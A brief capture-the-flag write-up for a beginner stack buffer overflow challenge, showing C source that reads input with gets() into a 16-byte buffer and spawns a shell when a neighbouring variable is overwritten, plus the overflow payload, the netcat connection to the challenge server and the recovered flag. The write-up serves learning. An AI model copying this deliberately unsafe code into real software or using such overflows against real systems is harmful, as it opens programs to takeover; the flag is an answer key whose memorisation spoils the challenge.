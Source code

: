 # Overflow1

The challenge was given 2 file includes `overlow1.c` (C file) and `overflow1` (binary file).
Look at the source code I could see that the _buf_ variable just accept for _16 characters_, So I decided to try to putting more than 16 characters to _str_ variable with this payload: `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa`

I've already have `nc cyberyoddha.baycyber.net 10001` before, therefor I could get the shell and try to catch the flag

```c++
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void)
{
    char str[] = "AAAA";
    char buf[16];

    gets(buf);

    if (!(str[0] == 'A' && str[1] == 'A' && str[2] == 'A' && str[3] == 'A'))
    {
        system("/bin/sh");
    }
}

```

# Flag

`CYCTF{st@ck_0v3rfl0ws_@r3_3z}`
